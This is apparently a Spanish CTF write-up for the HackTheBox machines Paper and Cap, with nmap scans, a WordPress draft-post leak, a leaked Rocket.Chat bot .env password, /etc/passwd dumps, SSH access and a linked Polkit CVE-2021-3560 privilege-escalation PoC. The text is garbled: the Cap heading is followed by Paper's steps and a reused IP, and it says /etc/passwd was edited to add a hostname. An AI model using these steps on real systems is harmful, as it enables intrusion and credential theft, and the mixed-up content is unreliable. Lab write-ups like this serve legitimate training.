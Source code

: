 # Paper
<table>
  <tr>
    <td style="vertical-align: top; padding-right: 20px;">
      <img src="portadas/Paper.png" alt="Imagen" style="max-width:320px; width:100%; height:auto;"/>
    </td>
    <td style="vertical-align: top; padding-left: 20px;">
      <strong>Vulnerabilidades / Características a tratar</strong>
      <ul>
        <li>Information Leakage</li>
        <li>Abusing WordPress - Unauthenticated View Private/Draft Posts</li>
        <li>Abusing Rocket.Chat Bot</li>
        <li>Polkit (CVE-2021-3560) [Privilege Escalation]</li>
      </ul>
    </td>
  </tr>
</table>


## Reconocimiento inicial
Realizamos un escaneo de todos los puertos para comprobar cuáles estan abiertos y lo exportamos al fichero `allports` 

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.245 -oG allports
```

```shell
PORT    STATE SERVICE REASON
22/tcp  open  ssh     syn-ack ttl 63
80/tcp  open  http    syn-ack ttl 63
443/tcp open  https   syn-ack ttl 63
```


# Cap 

• Insecure Directory Object Reference (IDOR)
• Information Leakage
• Abusing Capabilities (Python3.8) [Privilege Escalation]

## Reconocimiento inicial
Realizamos un escaneo de todos los puertos para comprobar cuáles estan abiertos y lo exportamos al fichero `allports` 

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.245 -oG allports
```

```shell
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Vamos a realizar un escaneo más exaustivo de los siguiente puertos encontrados:


```shell
nmap -sCV -p21,22,80 10.10.10.245 -oN targeted
```

Se puede comprobar que no encontramos nada interesante o vulnerable.

```shell
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Revisamos la pag web

Con el siguiente comando voy a comprobar que nos encontramos en la página web.

```shell
whatweb http://10.10.11.143
http://10.10.11.143 [403 Forbidden] Apache[2.4.37][mod_fcgid/2.3.9], Country[RESERVED][ZZ], Email[webmaster@example.com], HTML5, HTTPServer[CentOS][Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9], IP[10.10.11.143], MetaGenerator[HTML Tidy for HTML5 for Linux version 5.7.28], OpenSSL[1.1.1k], PoweredBy[CentOS], Title[HTTP Server Test Page powered by CentOS], UncommonHeaders[x-backend-server], X-Backend[office.paper]
```

Encontramos en la cabecera X-backend[office.paper] por lo tanto editamos el fichero /etc/passwd para poder mostrar el contenido.

nos encontramos que nos lleva a un blog desarrollado en `Wordpress` con unos comentarios que son relevantes junto con un usuario `Prisonmike`el comentario es el siguiente 

```text
Michael, you should remove the secret content from your drafts ASAP, as they are not that secure as you think!
-Nick
```

Podemos acceder a post que no se encuentra en la página pero estan expuestos para ello me sirvo de la siguiente vulnerabilidad: 

```
http://wordpress.local/?static=1&order=asc
```
vemos que usando esta URL se puede acceder a una URL con filtración de otros post.

por lo tanto si lo adaptamos a nuestro caso obtengo un post donde comentan que hay un enlace de registro.
```text
# Secret Registration URL of new Employee chat system
http://chat.office.paper/register/8qozr226AhkCHZdyY
```
Podemos apreciar que hay un subdominio que se agrega al fichero hosts y vemos que es un panel de login.

En ella te puedes registrar y entrar a un chat donde se encunetra un `bot` que te proporciona datos interesantes entre ellos ofrece un usuario y una contrase de un fichero `.env`

```shell
 <!=====Contents of file ../hubot/.env=====>
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
<!=====End of file ../hubot/.env=====>
```

Tambien nos deja ver el contenido del fichero `/etc/passwd` en el que se destaca la existencia de dos usuarios relevantes
```
rocketchat❌1001:1001::/home/rocketchat:/bin/bash
dwight❌1004:1004::/home/dwight:/bin/bash
```

## Acceso ssh

Con estas credenciales intentamos acceder al servicio ssh y comprobar si podemos acceder.

```shell
ssh dwight@10.10.11.143
```
Vemos que podemos acceder con éxito, donde podemos ver la primera la flag `user.txt`

## Escalada de privilegios

Para la escalada he intnetado los comandos básicos sin embargo no he conseguido encontrar nada de manera manual por lo tanto voy a utilizar la herramienta `linpeas.sh`
```
https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```

para pasarlo he creado un server con python 

```
python3 -m http.server 8000
```
y posteriormente me he conectado a ese recurso.


Después de hacerme el escaneo  vemos que `sudo` es vulnerable, y lo podemos explotar con el `CVE-2021-3560`que utiliza el comando sudo para crear un ususario y contraseña temporal con todos los permisos por lo tanto de esta manera podemos averiguar la flag de root.txt

el enlace del exploit es el siguiente:

```
https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation/blob/main/poc.sh
```